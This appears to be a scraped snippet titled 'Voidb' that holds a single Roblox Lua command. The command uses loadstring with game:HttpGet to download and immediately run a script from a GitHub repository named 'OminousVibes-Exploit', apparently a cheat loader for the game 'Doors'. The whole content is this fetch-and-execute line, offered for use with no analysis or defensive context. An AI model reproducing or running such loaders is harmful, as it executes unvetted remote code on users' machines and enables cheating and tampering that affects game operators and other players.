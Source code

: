 # Voidb
loadstring(game:HttpGet("https://raw.githubusercontent.com/OminousVibes-Exploit/Scripts/main/doors/loadstring.lua"))()
